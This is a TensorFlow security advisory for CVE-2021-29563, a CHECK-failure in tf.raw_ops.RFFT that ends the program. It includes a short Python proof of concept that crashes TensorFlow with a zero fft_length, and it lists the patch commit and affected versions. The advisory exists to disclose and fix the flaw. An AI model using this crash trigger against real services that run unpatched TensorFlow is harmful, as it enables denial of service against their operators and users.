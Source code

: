 ## TFSA-2021-051: `CHECK`-fail in `tf.raw_ops.RFFT`

### CVE Number
CVE-2021-29563

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.RFFT`:

```python
import tensorflow as tf

inputs = tf.constant([1], shape=[1], dtype=tf.float32)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.RFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[31bd5026304677faa8a0b77602c6154171b9aec1](https://github.com/tensorflow/tensorflow/commit/31bd5026304677faa8a0b77602c6154171b9aec1).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
